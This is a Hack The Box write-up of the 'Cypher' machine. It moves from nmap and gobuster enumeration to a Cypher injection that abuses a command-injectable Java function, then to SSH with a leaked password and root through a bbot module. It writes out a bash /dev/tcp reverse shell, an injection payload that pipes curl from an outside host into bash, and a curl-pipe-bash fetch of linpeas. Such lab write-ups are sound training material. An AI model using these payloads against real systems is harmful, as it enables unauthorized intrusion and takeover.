# Write-Up: Cypher - Medium

>  Platform: Hack The Box\
>  OS: Linux\
>  Difficulty: Medium\
>  Author: Fokos Nikolaos\
>  Completion Date: 09-07-2025\
>  Objective: Capture `user.txt` and `root.txt` flags



# Summary
This write-up demonstrates the discovery and exploitation of Cypher, a vulnerable Linux machine on Hack The Box, involving Cypher injection, reverse shell execution, and local privilege escalation. It showcases practical experience in offensive security methodologies, including enumeration, web vulnerability analysis, secure code inspection, and post-exploitation techniques.

---

## Target Enumeration

### Nmap Scan

`nmap -sV -sC -F 10.129.183.236`

#### Parameters:
- `-sV` Used to print the version of found services.
- `-sC` Used to print more details about found services.
- `-F` Scan the 1000 commonly used ports.
  
Initialized an nmap scan to the target IP and found two open ports and their services with the corresponding versions.


**Results:**
- Port 22/tcp - SSH (OpenSSH 9.6p1)
- Port 80/tcp - HTTP (Nginx 1.24.0)

As the image shows our target hosts a website on HTTP port 80 with domain: **cypher.htb**

---

## Web Enumeration

In order to visit the website and have our system be able to resolve the domain, we should add the IP and its corresponding domain in **/etc/hosts** as follows.

```bash
echo "10.129.183.236 cypher.htb" | sudo tee -a /etc/hosts
```



We can now access the URL `http://cypher.htb` on our web browser.


At first glance we see a simple webpage **GRAPH ASM** with basic functions. We can access the **Home**, **About** and **Login** page.

Trying simple and common credentials such as `admin / admin` shows `Access Denied`. Next we try a simple SQL Injection attack on the **Login** page and specifically on the **Username** field, such as `'admin OR 1=1`, which interestingly triggers an error stack trace, briefly visible before disappearing.

The stack reports invalid syntax on the query, making me question the way the database queries are structured. The error stack has multiple references to neo4j, which uses the Cypher Query Language to retrieve data from graph databases.

We postpone further login testing and proceed with search for various subdomains and other pages the server holds, by using **Dir Busting** techniques. 

For this purpose we can use various tools such as **gobuster**, **dirsearch** or **ffuf** for fuzzing.
In this case we begin with **gobuster**.

```bash
gobuster dir -u http://cypher.htb -w /usr/share/wordlists/dirb/common.txt
```

The results of gobuster shows some interesting pages.



Specifically we can see that our target has a **/testing** directory. Visiting the web page at `http://cypher.htb/testing` we can find an potentially valuable **.jar** file.



Clicking the file we download the JAR.
Extracting and searching the files for something potentially useful, we find in the package `com.cypher.neo4j` custom APOC (Awesome Procedures On Cypher) **Java** classes.

By using an OpenSource Java class decompiler **JD-GUI** at https://java-decompiler.github.io/, we can see the code behind the compiled custom classes. Specifically we find that CustomFunction.class has a serious vulnerability, an insecure way for request handling.



Inspecting the code we can get an idea of how the requests are processed by the `getUrlStatusCode()` function. We can see that `/bin/sh` is used to fetch the response (HTTP status code) by executing `curl` followed by the URL.

We can inspect in detail the requests and responses using **BurpSuite's** Proxy Interceptor.



We can see that the authentication process is handled by the **/api/auth** endpoint, suggesting that we may be able to forge custom Cypher SQL Injections and exploiting the command execution vulnerability found in `getUrlStatusCode()` to execute a reverse shell in order to gain access.

---

## Exploitation

After several attempts trying to figure out the syntax of Neo4j's cypher, we finally found the correct way to structure the queries and execute commands.

We created a local Python server using `python -m http.server` and created a bash script that contains our reverse shell by executing the following command `bash -i &> /dev/tcp/10.10.14.48/8888 0>&1`. Next we opened a listener for the port we want our reverse shell to communicate by using netcat. `nc -lvnp 8888`

Next we submitted the following query to the Login page as an Cypher Injection 
`admin' return h.value as value UNION CALL custom.getUrlStatusCode("http://127.0.0.1;curl 10.10.14.48:8000/reverse_shell.sh|bash;") YIELD statusCode AS value RETURN value;//` that granted us a reverse shell to the system.



The results were positive by receiving response on our listener.



---

## User Flag

Since we are on the system, we can spawn a better shell to make the process of changing directories and command execution a bit easier.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Let's find the user we are logged in with by executing `whoami`.



We begin exploring the system’s directory structure searching for useful files.
Executing `pwd` shows us that the user neo4j is currently on root `/`.
By beginning our search from the `/home` we quickly find the user of the system named `graphasm`



Inside the user's directory we find our `user.txt` flag, but we are unable to read the file yet because of permission restrictions. 

We can find also a configuration file named `bbot_preset.yml` containing some interesting information.



The file contains credentials for the neo4j user. We can try and use the credentials to see if they are used for other services like ssh.
Executing `ssh graphasm@10.129.183.236` and logging in with the password `cU4btyib.20xtCMCXkBmerhK` found inside `bbot_preset.yml` we successfully login as the `graphasm` user to the system and captured the user flag!


---

## Privilege Escalation

To escalate our privileges we can try at first, using linpeas.sh or try searching for executables with sudo access by the user.

Let's fetch linpeas.sh from our Python server and execute it.
`curl http://10.10.14.48:8000/linpeas.sh | bash`

The tool found an executable binary with root permissions.



Manually executing `sudo -l` we can confirm this binary has permissions that maybe exploitable.



Doing further investigation on the binary by executing `/usr/local/bin/bbot` we can see a list of available parameters.

We can use the tool's version to find possible vulnerabilities.
`/usr/local/bin/bbot --version` 


Doing a little research on the specific version we found an important disclosure reporting Local Privilege Escalation via Malicious Module Execution

Specifically we can find a PoC (Proof of Concept) on the GitHub page found on References section.

Running the command `sudo /usr/local/bin/bbot -t dummy.com -p ~/preset.yml --event-types ROOT` grants us full root access by spawning a root shell.

---

## Root Flag

On our spawned root shell we can `cd /root` and finally capture the root flag with `cat root.txt`.



---

## Vulnerabilities

- Credential recycling.
- Insecure implementation of custom functions.
- Insecure handling of Cypher Queries.
- Ooutdated software.
- Partially unrestricted use of root privileges.

---

## Learning Outcome

This lab deepened my understanding of less common injection vectors (Cypher), secure software development issues in custom Java applications, and practical Linux privilege escalation techniques. It also reinforced the value of systematic enumeration and vulnerability chaining.

---

## Tools Used

- nmap, gobuster, Burp Suite, netcat, linpeas, custom scripts.

---

## References
- https://pentester.land/blog/cypher-injection-cheatsheet/
- https://seclists.org/fulldisclosure/2025/Apr/19
- https://github.com/Housma/bbot-privesc
